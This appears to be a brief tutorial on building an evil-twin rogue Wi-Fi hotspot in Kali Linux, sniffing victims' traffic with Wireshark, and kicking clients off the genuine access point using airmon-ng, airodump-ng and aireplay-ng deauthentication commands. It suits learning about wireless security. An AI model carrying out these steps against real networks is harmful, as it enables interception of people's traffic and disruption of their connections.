 # Creating a rogue Wi-Fi access point

> Disclaimer: I think it goes without saying that you should only be doing this sort of caper on networks you own. But if nothing else it should disuade you from using public Wi-Fi networks.

Download the latest [Kali Linux ISO](https://www.kali.org/downloads/) and create a [bootable USB drive](https://docs.kali.org/downloading/kali-linux-live-usb-install). Restart your computer and boot into Kali via the BIOS.

You need two network connections so tether your phone with a cable leaving the built-in Wi-Fi for your rogue access point.

_Settings > Wi-Fi > options > Turn On Wi-Fi Hotspot..._

Run `nmtui` and edit the hotspot credentials to match your home network.

## Capturing packets
Capturing packets really is as simple as running Wireshark on the Wi-Fi network interface. Try adding a Wireshark filter and visit https://turpin.dev on your compromised device just so you have some known text to search for.

```text
frame contains "turpin"
```

And now we wait for a new device to connect... actually, even established connections re-negotiated periodically but we can make it happen on demand.

## Forcing a reconnection
We _could_ wait but we can also kick out existing sessions by sending a malformed message to the genuine access point.

You'll need two Wi-Fi connections for this: one for the hotspot, one to send malformed packets. So procure a USB-to-Wi-Fi adapter.

List your network interfaces.

```bash
ip a
```

If the built-in Wi-Fi is the hotspot, let's insert the USB Wi-Fi adapter and put it into monitor mode.

```bash
airmon-ng start wlan1
```

Check your network interfaces again and you'll see it has a "mon" suffix. Now see what devices are out there.

```bash
airodump-ng wlan1mon --manufacturer
```

`airodump-ng` lists access points and clients.

```text
CH 2 ][ Elapsed: 30 s ][ 2019-11-02 14:06

BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

A0:BD:CD:8F:D0:2A -66 39 225 100 11 130 WPA2 CCMP PSK pleasedto

BSSID STATION PWR Rate Lost Frames Probe

(not associated) 5C:AA:FD:25:40:DD -64 0 - 0 28 4 Sonos_fLNwUn2QJ
```

Deauthenticate the target.

```bash
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 wlan1
```

See the [aircrack documentation](https://www.aircrack-ng.org/doku.php?id=deauthentication).

## Tidying up after yourself
When you're done take the network interface out of monitor mode and restart your network. But you can just turn off if you don't care. Should the Kali screensaver kick in the default root password is "toor" (root backwards).

```bash
airmon-ng stop wlan1mon
systemctl restart network-manager.service
```
